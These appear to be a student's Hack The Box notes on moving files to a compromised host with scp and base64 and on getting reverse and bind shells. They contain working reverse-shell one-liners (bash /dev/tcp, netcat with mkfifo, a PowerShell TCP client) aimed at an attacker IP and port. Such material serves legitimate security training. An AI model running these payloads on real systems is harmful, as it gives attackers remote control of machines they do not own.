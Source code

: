 - One method to transfer files would be using `scp`, granted we have obtained ssh user credentials on the remote host.

```sh
woadey@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

- In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to `base64` encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it.

```sh
woadey@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

```sh
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

### Shells

- A `Reverse Shell` is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) has many reverse shell payloads:

**Linux Victim**

```sh
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
...or...
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

**Windows Victim**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

- Another type of shell is a `Bind Shell`. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port. Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell, to that port. We have to connect to that port with netcat, and we will get control through a shell on that system. [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md) again has payloads for this.
